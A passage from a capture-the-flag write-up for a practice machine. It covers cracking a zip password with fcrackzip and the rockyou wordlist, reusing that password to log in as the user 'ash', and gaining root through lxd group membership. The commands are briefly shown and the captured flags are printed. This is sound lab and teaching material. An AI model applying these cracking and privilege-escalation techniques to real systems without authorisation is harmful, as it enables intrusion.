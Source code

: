 ## 10 - Cracking the zip

Zip is password protected (found the too online)... 

```
fcrackzip -u -D -p "/usr/share/wordlists/rockyou.txt" files.zip

Password= admin@it
```
The files had nothing interesting and poking around i did not found any abismal vuln, lets try the password as ash system password<br>
It worked !!

## 11 - PrivEsc

But first lets get the flag

```
cat /home/ash/user.txt

FLAG: 7742122ddba51ab353624a4a9294df62
```

After running linpeas i went ahead and found one binary file suspicious with a pointed CVE but there was no gcc to compile the exploit
```
/usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
```

Other thing that i did not noticed and was very highlighted was LXD with RED/YELLOW highlight (99% PE) by linpeas.
```
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd) 
```

After a little search i found a vulnerability related to the user being in the lxd group which allows a privesc through its containers to get root privileges

<br>
src: https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

<br>
I followed the second method in my local machine until the import step (there i uploaded the produced files to the target machine) 

After following the exploitation
```
whomai 
root

find / -type f -iname "root.txt" -print 2>/dev/null
/mnt/root/root/root.txt
cat /mnt/root/root/root.txt
FLAG: 7ced683256bc943cb1980254e1f86b72
```





